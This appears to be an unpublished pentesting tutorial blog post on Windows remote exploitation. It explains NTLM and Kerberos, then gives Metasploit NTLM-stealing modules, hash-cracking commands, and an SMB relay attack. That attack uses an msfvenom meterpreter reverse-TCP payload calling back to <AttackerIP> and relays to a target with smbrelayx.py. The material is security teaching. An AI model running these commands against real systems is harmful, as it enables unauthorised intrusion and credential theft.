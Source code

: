 ```yaml
---
layout: post
published: false
title: Windows Exploitation 11.2
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that blog post .**
[https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/]


**Remote Exploitation of Windows Network**

The exploitation process in which attacker exploit's the listening services on the target network, and tries to get access on the target system.




**Windows Authentication**

Windows uses two types authentication protocols for clients and server authentication, NTLM and kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client send the username to the server to authenticate itself.

3.  Then server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then server sends, user name, challenge sent to the client, response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)
[LM/NT hashes](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by unix systems nowdays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends network authentication request including TGT and name of target server, for exapmle MS Active Directory.

4.  After that kerberos server reply including session ticket for use with target server

5.  The client presents time-stamped session ticket to the target server as authentication

6.  Finally, Target server provides authentication back to client.

Authenticaton Successfull!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look on Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** Important.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


John Hashes Formats [http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats]

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

rcracki_mt

[https://github.com/foreni-packages/rcracki_mt]

Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h is used to specify the first 8-bytes of the LMHASH
* -t is the number of threads to use
* *.rti is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
```



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using a SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse tcp .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use another windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation is all depends on the previous phases of pentesting_** 
